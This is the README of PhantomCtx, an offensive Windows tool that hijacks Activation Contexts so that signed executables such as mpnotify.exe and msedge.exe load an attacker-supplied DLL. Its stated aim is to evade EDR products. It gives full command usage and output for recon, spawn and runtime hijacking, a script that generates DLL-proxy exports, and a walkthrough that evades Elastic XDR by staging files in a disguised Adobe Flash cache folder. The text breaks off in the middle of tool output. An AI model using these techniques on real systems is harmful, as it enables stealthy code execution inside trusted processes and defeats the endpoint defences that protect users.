





# PhantomCtx

PhantomCtx is a tool that automates [Activation Context](https://learn.microsoft.com/en-us/windows/win32/sbscs/activation-contexts) hijacking with the objective of loading an arbitrary DLL into the vast majority of signed executables (e.g. Microsoft, Adobe, Mozilla).

The loader is presented as a modern alternative to traditional [DLL Hijacking & Sideloading](https://attack.mitre.org/techniques/T1574/001/): unlike conventional approaches, it does not require a vulnerable binary. The technique can be performed as long as the target executable **resolves a DLL through its Import Address Table (IAT)** or, in the worst case, via `LoadLibrary` without an absolute path.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe

                +----------------------------------+
                |         PhantomCtx v1.0          |
                +----------------------------------+

  Usage:
        PhantomCtx.exe -m [MODE] [OPTIONS]

  Modes:
        -m recon        Displays information about the Activation Context DLL redirections
                        of a running process or one to be spawned.

        -m spawn        Perform Activation Context Hijacking using an on-disk executable
                        (preferably a signed binary for OPSEC purposes).

        -m runtime      Perform Activation Context Hijacking on an already running process.
```

For a deeper dive into how it works internally and how it evades aggressive EDR solutions, check out the post on [my technical blog](https://rexmax.dev/posts/phantomctx-new-approach-to-activation-context-hijacking-for-edr-evasion/).

# Table of Contents

- [Internal Mechanism](#internal-mechanism)
  - [A New Method for Activation Context Hijacking Focused on EDR Evasion](#a-new-method-for-activation-context-hijacking-focused-on-edr-evasion)
- [How to Compile](#how-to-compile)
- [Usage: Module-Based Workflow](#usage-module-based-workflow)
  - [Recon](#recon)
  - [Spawn (recommended)](#spawn-recommended)
  - [Runtime](#runtime)
- [Example: Activation Context Hijacking + DLL Proxying mpnotify.exe](#example-activation-context-hijacking--dll-proxying-mpnotifyexe)
- [Disclaimer](#disclaimer)
- [References](#references)

# Internal Mechanism

`PhantomCtx` abuses a **legitimate** Windows feature present in most processes, called **Activation Contexts**. According to Microsoft:

>[_Activation contexts_](https://learn.microsoft.com/en-us/windows/win32/sbscs/a-sbscs-gly) are data structures in memory containing information that the system can use to redirect an application **to load a particular DLL version**, COM object instance, or custom window version...

When the Windows Loader resolves a DLL (via `LoadLibrary` or the import table), it follows a defined resolution order:

1. DLL redirection
2. API sets
3. **SxS manifest redirection**
4. Loaded-module list
5. Known DLLs
6. Process package dependency graph  
7 – 12. Standard file search order on disk

`PhantomCtx` targets step 3: **SxS manifest redirection**. Activation Contexts are derived from [Side-by-Side](https://en.wikipedia.org/wiki/Side-by-side_assembly) (`.manifest`) files associated with executables, typically embedded in PE binaries. Internally, an Activation Context contains a **Table of Contents (ToC)** indexing multiple sections, including the **DLL redirection section**. The Loader typically accesses Activation Contexts through `PEB.ActivationContextData`.

Research by [Kurosh Dabbagh Escalante](https://github.com/Kudaes) showed that a malicious Activation Context can be constructed using `CreateActCtxW`, written into `RW` memory in a target process, and then activated by overwriting `PEB.ActivationContextData` to point to the crafted structure.

Once hijacked, the loader resolves DLL redirections defined within the malicious Activation Context, **redirecting library resolution** to paths controlled by the attacker.

The loader named `Eclipse`, developed as part of his research, can be found in its [official repository](https://github.com/Kudaes/Eclipse).

## A New Method for Activation Context Hijacking Focused on EDR Evasion

After multiple tests, `Eclipse` was detected by aggressive EDRs such as Elastic at the following points:

- `Potential Suspended Process Code Injection`: suspended process creation followed by `NtWriteVirtualMemory` to copy the AC blob into the remote process.
- `Remote Process Memory Write by Low Reputation Module`: `NtWriteVirtualMemory` without `CreateProcess` in the call stack and a low-reputation module, needed for overwriting `PEB.ActivationContextData`.
- `Remote Memory Write to Trusted Target Process`: `WriteProcessMemory` without `CreateProcess` in the call stack, restricted to system/user-installed binaries.

After one day of research looking for alternative approaches to implement in `PhantomCtx`, I discovered that **the memory region of the original Activation Context is a section view mapped during process creation**. It is possible to **unmap this section view using** `NtUnmapViewOfSection` and then create a new read-only section view backed by our malicious Activation Context, mapping it at the **exact same memory address** where the original one resided.

As a result, it is **no longer necessary** for the loader to overwrite the `PEB.ActivationContextData` pointer. This eliminates the requirement to use `NtAllocateVirtualMemory` and `NtWriteVirtualMemory`, bypassing all EDR monitoring rules related to remote process memory writes and injection.

Additionally, to increase detection difficulty, `PhantomCtx` does not use `CreateActCtxW`, removing the need to handle `.manifest` files during the attack. Depending on the selected mode, it can **steal the Activation Context from another remote process** containing a valid DLL redirection section using `NtReadVirtualMemory`, reconstruct the DLL redirection entries locally, patch it, and then replace the original.

# How to Compile

To compile the tool, it is recommended to use Visual Studio or a compatible compiler.

If using VS, open the `x64 Native Tools Command Prompt for VS`, navigate to the project root directory and compile it with `compile.bat`:

```
C:\PhantomCtx>.\compile.bat
[INFO] Created output directory: x64
[INFO] Compiling PhantomCtx...
main.c
utils.c
recon.c
actctx.c
c_runtime.c
dynamic_resolution.c
process_utils.c
spawn.c
runtime.c
Generating Code...
[SUCCESSFUL] Build successful: x64\PhantomCtx.exe
```

# Usage: Module-Based Workflow

The tool is designed with a **modular architecture** to simplify development while providing the operator with a clear, step-based workflow.

Each module serves a **specific role** within the exploitation workflow. 

**Please take a moment to review the purpose of each one to fully leverage the tool’s capabilities!!!**

The attack can be performed either on a **process to be spawned** (**recommended**) or on an **already running process**. The tool is designed to handle both scenarios.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe

                +----------------------------------+
                |         PhantomCtx v1.0          |
                +----------------------------------+

  Usage:
        PhantomCtx.exe -m [MODE] [OPTIONS]

  Modes:
        -m recon        Displays information about the Activation Context DLL redirections
                        of a running process or one to be spawned.

        -m spawn        Perform Activation Context Hijacking using an on-disk executable
                        (preferably a signed binary for OPSEC purposes).

        -m runtime      Perform Activation Context Hijacking on an already running process.
```

## Recon

The `recon` mode focuses on parsing the Activation Context of the target program or running process. It is the first module that should be executed, as it determines which exploitation submodule should be used within the exploitation workflow.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m recon -h

                +----------------------------------+
                |         PhantomCtx v1.0          |
                +----------------------------------+

  Usage:
        PhantomCtx.exe -m recon -s [SUBMODE] -p [PROCESS_NAME|PATH]

  Submodes:
        -s spawn        Spawn a process in suspended mode to retrieve its
                        Activation Context DLL redirection information.

        -s runtime      Attach to a currently running process to retrieve its
                        Activation Context DLL redirection information.

  Examples:
        PhantomCtx.exe -m recon -s spawn   -p C:\path\to\target.exe
        PhantomCtx.exe -m recon -s runtime -p target.exe
```

As an example, we use the signed Microsoft binary `mpnotify.exe`. The first step is to determine whether it contains a valid Activation Context with a DLL redirection section.

If it does not, the tool recommends the `steal-context` submodule under the `spawn` or `runtime` modes, which retrieves an Activation Context from another process containing a valid redirection section.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m recon -s spawn -p "C:\Windows\System32\mpnotify.exe"
[SUCCESS] Suspended process created...
[SUCCESS] Activation Context Data Blob copied to local heap buffer @00000294CEA79CD0 (916 bytes)

+-[ ACTIVATION CONTEXT DATA ]
|  Magic         : 0x78746341 (Actx)
|  HeaderSize    : 0x20 (32 bytes)
|  FormatVersion : 1
|  TotalSize     : 0x394 (916 bytes)
|  Flags         : 0x00000000
|
+--[ TOC ] 6 entries
|  [00] Id=1   Format=1  Offset=0x00D4  Length=0x0218
|  [01] Id=4   Format=2  Offset=0x02EC  Length=0x0028
|  [02] Id=5   Format=2  Offset=0x0314  Length=0x0028
|  [03] Id=6   Format=2  Offset=0x033C  Length=0x0028
|  [04] Id=9   Format=2  Offset=0x0364  Length=0x0028
|  [05] Id=11  Format=1  Offset=0x038C  Length=0x0008
|
+--[ DLL REDIRECTION ] not present in this blob
|
+--[ HINT ] Use 'steal-context' to steal the Activation Context
            from a running process that has one.
            Example: -m spawn|runtime -s steal-context -p <target> -d <dll> --dll-path <path> --steal-from <process>
```

If the target program or process Activation Context contains a valid DLL redirection section, the most efficient approach is to use the `add-entry` or `patch-entry` submodules within the `spawn` or `runtime` exploitation modes.

## Spawn (recommended)

The `spawn` mode is designed to perform Activation Context hijacking by spawning a process from a signed executable on the target system.

This method is the **most recommended** and thoroughly tested, due to its operational simplicity and reliability.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m spawn -h

                +----------------------------------+
                |         PhantomCtx v1.0          |
                +----------------------------------+

  Usage:
        PhantomCtx.exe -m spawn -s [SUBMODE] -p [PATH] [OPTIONS]

  Submodes:
        -s steal-context        Spawn a process and hijack its Activation Context
                                by stealing the context from another running process.

        -s add-entry            Spawn a process and hijack its Activation Context
                                by adding a new DLL redirection entry.

        -s patch-entry          Spawn a process and hijack its Activation Context
                                by patching the path of an existing DLL redirection entry.

  Options:
        -p <PATH>               Path to the target executable to spawn.
        -d <DLL>                Name of the DLL to hijack (e.g. comctl32.dll).
        --dll-path <PATH>       Path to the custom DLL to load.

  steal-context Options:
        --steal-from <NAME>     Process name to steal the Activation Context from.

  Examples:
        PhantomCtx.exe -m spawn -s steal-context  -p C:\program.exe --steal-from explorer.exe -d crypt32.dll --dll-path C:\path\to\custom.dll
        PhantomCtx.exe -m spawn -s add-entry      -p C:\program.exe -d crypt32.dll --dll-path C:\path\to\custom.dll
        PhantomCtx.exe -m spawn -s patch-entry    -p C:\program.exe -d comctl32.dll --dll-path C:\path\to\custom.dll
```

The internal workflow of this mode is as follows:  
1. Create the target process in a suspended state using `CreateProcessW`.  
2. Depending on the selected submodule:  
	- `steal-context`: Open the stealing process and copy a valid Activation Context containing a DLL redirection section into a local buffer. Depending on whether an entry for the target DLL already exists, a new entry is created or an existing one is patched. The modified Activation Context is then mapped into the suspended process, replacing the original one.  
	  
	- `add-entry`: Open the suspended program process and copy its Activation Context into a local buffer. A new DLL redirection entry is added for the specified DLL, and the modified Activation Context replaces the original.  
	  
	- `patch-entry`: Open the suspended program process and copy its Activation Context into a local buffer. The existing DLL redirection entry for the specified DLL is patched to point to the provided payload DLL path, and the modified Activation Context replaces the original.
3. Resume execution of the suspended process using `ResumeThread`.

The `steal-context` submodule is recommended when the **target executable does not contain a valid Activation Context or a valid DLL redirection section**. This can be determined using the previously executed `recon` module.

A reliable target for context stealing is `explorer.exe`. This does not introduce instability or detection risk, as the operation only involves reading virtual memory.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m spawn -s steal-context -p "C:\Windows\System32\mpnotify.exe" --steal-from explorer.exe -d advapi32.dll --dll-path C:\hijack\hijack.dll
[SUCCESS] Found 'explorer.exe' PID 1604
[SUCCESS] Opened handle to PID 1604
[SUCCESS] Activation Context Data Blob copied to local heap buffer @000001AC80F53FD0 (8256 bytes)
[INFO] Activation Context blob from 'explorer.exe'. TotalSize=0x2040
[INFO] Patching blob: dllName='advapi32.dll' redirectPath='C:\hijack\hijack.dll'
[+] 'advapi32.dll' not found -> adding new entry.
[ADD] DLL key       : advapi32.dll
[ADD] Redirect path : C:\hijack\hijack.dll
[ADD] PseudoKey     : 0xF60E87FC
[ADD] RosterIndex   : 1
[ADD] ElementCount  : 3
[ADD] TotalSize     : 0x2040 -> 0x20E4
[SUCCESS] Blob patched. New TotalSize = 0x20E4

[INFO] Patched ActivationContextData:
|
<SNIP>
|
+--[ DLL REDIRECTION ] 3 entries
|
<SNIP>
|
|  [02] advapi32.dll
|       PseudoKey  : 0xF60E87FC
|       RosterIdx  : 1
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll
|
+--[ END ]

<SNIP>
[SUCCESS] Original Activation Context region unmapped @ 00000164EA0A0000
[SUCCESS] Patched Activation Context mapped at 00000164EA0A0000 (same address)
[SUCCESS] Target process resumed.
```

The `add-entry` and `patch-entry` submodules are used when **the application already has a valid Activation Context with a DLL redirection section** and:

1. It already contains a redirection entry for a DLL; in this case, `patch-entry` is the appropriate option.
2. A custom redirection needs to be added for a library that is expected to be loaded during execution; in this case, `add-entry` is used.

Although `steal-context` can still be used in these scenarios, it is generally unnecessary, as a valid Activation Context is already available for modification.

A `patch-entry` example can be observed after enumerating `msedge.exe` with `PhantomCtx`, where an existing custom redirection entry for `msedge_elf.dll` is identified:

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m recon -s spawn -p "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"

<SNIP>
|
|  [01] msedge_elf.dll
|       PseudoKey  : 0x81A505F9
|       RosterIdx  : 3
|       Flags      : OMITS_ASSEMBLY_ROOT
|       Segments   : 0  PathLen=0 bytes
|       Path       : <reconstructed from roster>
|
<SNIP>

C:\PhantomCtx\x64>.\PhantomCtx.exe -m spawn -s patch-entry -p "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" -d msedge_elf.dll --dll-path C:\hijack\hijack.dll

<SNIP>

[INFO] Patched ActivationContextData:

<SNIP>
|
|  [01] msedge_elf.dll
|       PseudoKey  : 0x81A505F9
|       RosterIdx  : 3
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll
<SNIP>
```

Alternatively, by enumerating the IAT of the target process, imported DLLs suitable for hijacking can be identified. For example, `librewolf.exe` imports `SHLWAPI.dll` even if it is not present in the Activation Context manifest; in such cases, it can be added to the redirection table to force resolution.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m spawn -s add-entry -p "C:\Program Files\LibreWolf\librewolf.exe" -d SHLWAPI.dll --dll-path C:\hijack\hijack.dll

<SNIP>

[INFO] Patched ActivationContextData:

<SNIP>
|
+--[ DLL REDIRECTION ] 4 entries
|  [00] SHLWAPI.dll
|       PseudoKey  : 0x65C6D010
|       RosterIdx  : 1
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll
|
<SNIP>
```

## Runtime

The `runtime` mode is designed to perform Activation Context hijacking on a signed, already-running process.

Although this module is implemented, its effectiveness depends on accurately **knowing when and which specific library is loaded during the process runtime**. As a result, even if the Activation Context of the legitimate process is hijacked, success still relies on the target calling `LoadLibrary` without an explicit path, which is often difficult to predict.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m runtime -h

                +----------------------------------+
                |         PhantomCtx v1.0          |
                +----------------------------------+

  Usage:
        PhantomCtx.exe -m runtime -s [SUBMODE] -p [PROCESS_NAME] [OPTIONS]

  Submodes:
        -s steal-context        Hijack the Activation Context of a running process
                                by stealing the context from another running process.

        -s add-entry            Hijack the Activation Context of a running process
                                by adding a new DLL redirection entry.

        -s patch-entry          Hijack the Activation Context of a running process
                                by patching the path of an existing DLL redirection entry.

  Options:
        -p <PROCESS_NAME>       Name of the already running target process (e.g. notepad.exe).
        -d <DLL>                Name of the DLL to hijack (e.g. comctl32.dll).
        --dll-path <PATH>       Path to the custom DLL to load.

  steal-context Options:
        --steal-from <NAME>     Process name to steal the Activation Context from.

  Examples:
        PhantomCtx.exe -m runtime -s steal-context  -p program.exe --steal-from explorer.exe -d crypt32.dll --dll-path C:\path\to\custom.dll
        PhantomCtx.exe -m runtime -s add-entry      -p program.exe -d crypt32.dll --dll-path C:\path\to\custom.dll
        PhantomCtx.exe -m runtime -s patch-entry    -p program.exe -d comctl32.dll --dll-path C:\path\to\custom.dll
```

The internal workflow of this mode is as follows:
1. The PID of the target process is identified from its executable name, and the process is opened with the permissions `PROCESS_VM_READ | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION`.
2. Depending on the selected submodule:
    - `steal-context`: Open the stealing process and copy a valid Activation Context containing a DLL redirection section into a local buffer. Depending on whether an entry for the target DLL already exists, a new entry is created or the existing one is patched. The modified Activation Context is then mapped into the running process, replacing the original one.
	  
	- `add-entry`: Open the target running process and copy its Activation Context into a local buffer. A new DLL redirection entry is added for the specified DLL, and the modified Activation Context replaces the original.
	  
	- `patch-entry`: Open the target running process and copy its Activation Context into a local buffer. The existing DLL redirection entry for the specified DLL is patched to point to the provided payload DLL, and the updated Activation Context replaces the original.

The `steal-context` submodule is recommended when **the target running process does not contain a valid Activation Context or a valid DLL redirection section**. This can be determined using the previously executed `recon` module.

A reliable target for context stealing is `explorer.exe`. This does not introduce instability or detection risk, as the operation only involves reading virtual memory.

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m runtime -s steal-context -p cmd.exe --steal-from explorer.exe -d user32.dll --dll-path C:\hijack\hijack.dll

<SNIP>

[INFO] Patched ActivationContextData:

<SNIP>
|
+--[ DLL REDIRECTION ] 3 entries
|  [00] user32.dll
|       PseudoKey  : 0x0DB00860
|       RosterIdx  : 1
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll

<SNIP>
[SUCCESS] Activation Context hijacked in running process 'cmd.exe'.
```

The `add-entry` and `patch-entry` submodules are used when **the running process already has a valid Activation Context with a DLL redirection section** and:

1. It already contains a redirection entry for a DLL; in this case, `patch-entry` is the appropriate option.
2. A custom redirection needs to be added for a library that is expected to be loaded during execution; in this case, `add-entry` is used.

Although `steal-context` can still be used in these scenarios, it is generally unnecessary, as a valid Activation Context is already available for modification.

A `patch-entry` example can be observed after enumerating the process `msedge.exe` with `PhantomCtx`, where an existing custom redirection entry for `msedge_elf.dll` is identified:

```c
C:\PhantomCtx\x64>.\PhantomCtx.exe -m recon -s runtime -p msedge.exe

<SNIP>
|
|  [01] msedge_elf.dll
|       PseudoKey  : 0x81A505F9
|       RosterIdx  : 3
|       Flags      : OMITS_ASSEMBLY_ROOT
|       Segments   : 0  PathLen=0 bytes
|       Path       : <reconstructed from roster>
|
<SNIP>

C:\PhantomCtx\x64>.\PhantomCtx.exe -m runtime -s patch-entry -p msedge.exe -d msedge_elf.dll --dll-path C:\hijack\hijack.dll

<SNIP>

[INFO] Patched ActivationContextData:

<SNIP>
|
|  [01] msedge_elf.dll
|       PseudoKey  : 0x81A505F9
|       RosterIdx  : 3
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll
|
<SNIP>
[SUCCESS] Activation Context hijacked in running process 'msedge.exe'.
```

Alternatively, by enumerating the runtime events of the target process, DLLs loaded during execution that are suitable for hijacking can be identified using tools such as `Procmon`. In such cases, it can be added to the redirection table to force resolution.

```c
.\PhantomCtx.exe -m runtime -s add-entry -p msedge.exe -d target.dll --dll-path C:\hijack\hijack.dll

<SNIP>

[INFO] Patched ActivationContextData:

<SNIP>
|
+--[ DLL REDIRECTION ] 4 entries
|  [00] target.dll
|       PseudoKey  : 0x2D1B25C7
|       RosterIdx  : 1
|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=40 bytes
|       Path       : C:\hijack\hijack.dll
|
<SNIP>
[SUCCESS] Activation Context hijacked in running process 'msedge.exe'.
```

# Example: Activation Context Hijacking + DLL Proxying 'mpnotify.exe'

Let's look at a practical use case in which `PhantomCtx` remains undetectable on a fully updated Windows 11 machine running the **Elastic Cloud XDR** agent with ALL rules enabled and set to **Prevent** mode to make it as aggressive as possible.



>Note that we will be targeting Windows 11 binaries; therefore, if our attacker machine is running Windows 10, we need to transfer the analyzed executables and DLLs to our machine.

The first step is to identify a Windows executable that imports relevant DLLs. 

In this case, we'll use `PE-Bear` to inspect the Import Address Table (IAT) of the signed executable `C:\Windows\System32\mpnotify.exe`, where `ADVAPI32.dll` can be identified as one of its imports:



To prevent the application from crashing or exhibiting unexpected behavior when loading our payload, DLL proxying must be performed so that our payload forwards calls to the original DLL.

[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) will be used to extract all exported functions from `ADVAPI32.dll` and generate the forwarding directives that will be specified in the source code of our proxy DLL.

Once `C:\Windows\System32\advapi32.dll` is opened in DLL Export Viewer, navigate to `View > HTML Report - All Functions`.



It is necessary to keep the browser window open so that the generated `report.html` file remains available. The file path is then copied and processed using the following Python script developed by [itm4n](https://itm4n.github.io/dll-proxying/):

```python
"""
The report generated by DLL Exported Viewer is not properly formatted so it can't be analyzed using a parser unfortunately.
"""
from __future__ import print_function
import argparse

def main():
    parser = argparse.ArgumentParser(description="DLL Export Viewer - Report Parser")
    parser.add_argument("report", help="the HTML report generated by DLL Export Viewer")
    args = parser.parse_args()
    report = args.report

    try:
        f = open(report)
        page = f.readlines()
        f.close()
    except:
        print("[-] ERROR: open('%s')" % report)
        return

    for line in page:
        if line.startswith("<tr>"):
            cols = line.replace("<tr>", "").split("<td bgcolor=#FFFFFF nowrap>")
            function_name = cols[1]
            ordinal = cols[4].split(' ')[0]
            dll_orig = "%s_orig" % cols[5][:cols[5].rfind('.')]
            print("#pragma comment(linker,\"/export:%s=%s.%s,@%s\")" % (function_name, dll_orig, function_name, ordinal))

if __name__ == '__main__':
    main()
```

```c
C:\Users\rexmax\Documents\DLL Proxying>.\exports.py dllexp\report.html
#pragma comment(linker,"/export:A_SHAFinal=advapi32_orig.A_SHAFinal,@1002")
#pragma comment(linker,"/export:A_SHAInit=advapi32_orig.A_SHAInit,@1003")
#pragma comment(linker,"/export:A_SHAUpdate=advapi32_orig.A_SHAUpdate,@1004")
<SNIP>
```

All exports from the output are copied into the source code of `payload.c`, after which the DLL is compiled and placed alongside `PhantomCtx` on the attacker machine, along with a copy of the original library renamed `advapi32_orig.dll`.

The required files must be organized as follows:

```c
C:\Users\rexmax\Documents\WindowsInternals\PhantomCtx\x64>dir

06/13/2026  08:53 PM           158,208 advapi32.dll
06/10/2026  01:52 AM           753,544 advapi32_orig.dll
06/13/2026  08:28 PM           198,144 PhantomCtx.exe
```

The files are then transferred to a directory on the Windows 11 target machine. In this case, they are dropped into:

```
C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache
```

Afterwards, Activation Context Hijacking is performed against the `mpnotify.exe` binary using `PhantomCtx`:

```c
C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache>.\PhantomCtx.exe -m spawn -s steal-context -p "C:\Windows\System32\mpnotify.exe" --steal-from explorer.exe -d advapi32.dll --dll-path "C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache\advapi32.dll"
[SUCCESS] Found 'explorer.exe' PID 6380
[SUCCESS] Opened handle to PID 6380
[SUCCESS] Activation Context Data Blob copied to local heap buffer @000002B135B26AA0 (8276 bytes)
[INFO] Activation Context blob from 'explorer.exe'. TotalSize=0x2054
[INFO] Patching blob: dllName='advapi32.dll' redirectPath='C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache\advapi32.dll'
[+] 'advapi32.dll' not found -> adding new entry.
[ADD] DLL key       : advapi32.dll
[ADD] Redirect path : C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache\advapi32.dll
[ADD] PseudoKey     : 0xF60E87FC
[ADD] RosterIndex   : 1
[ADD] ElementCount  : 3
[ADD] TotalSize     : 0x2054 -> 0x2166
[SUCCESS] Blob patched. New TotalSize = 0x2166

[INFO] Patched ActivationContextData:

+-[ ACTIVATION CONTEXT DATA ]
|  Magic         : 0x78746341 (Actx)
|  HeaderSize    : 0x20 (32 bytes)
|  FormatVersion : 1
|  TotalSize     : 0x2166 (8550 bytes)
|  Flags         : 0x00000000
|
+--[ TOC ] 9 entries
|  [00] Id=1   Format=1  Offset=0x0134  Length=0x09CC
|  [01] Id=2   Format=1  Offset=0x0B00  Length=0x1666  <-- DLL Redirection
|  [02] Id=3   Format=1  Offset=0x0BC4  Length=0x12C8
|  [03] Id=4   Format=2  Offset=0x1E8C  Length=0x0028
|  [04] Id=5   Format=2  Offset=0x1EB4  Length=0x0028
|  [05] Id=6   Format=2  Offset=0x1EDC  Length=0x0028
|  [06] Id=9   Format=2  Offset=0x1F04  Length=0x0028
|  [07] Id=10  Format=1  Offset=0x1F2C  Length=0x0120
|  [08] Id=11  Format=1  Offset=0x204C  Length=0x0008
|
+--[ DLL REDIRECTION ] 3 entries
|  [00] comctl32.dll.mui
|       PseudoKey  : 0xBBF34EA2
|       RosterIdx  : 3
|       Flags      : OMITS_ASSEMBLY_ROOT
|       Segments   : 0  PathLen=0 bytes
|       Path       : <reconstructed from roster>
|
|  [01] comctl32.dll
|       PseudoKey  : 0xF1C4BC4F
|       RosterIdx  : 2
|       Flags      : OMITS_ASSEMBLY_ROOT
|       Segments   : 0  PathLen=0 bytes
|       Path       : <reconstructed from roster>
|
|  [02] advapi32.dll
|       PseudoKey  : 0xF60E87FC
|       RosterIdx  : 1
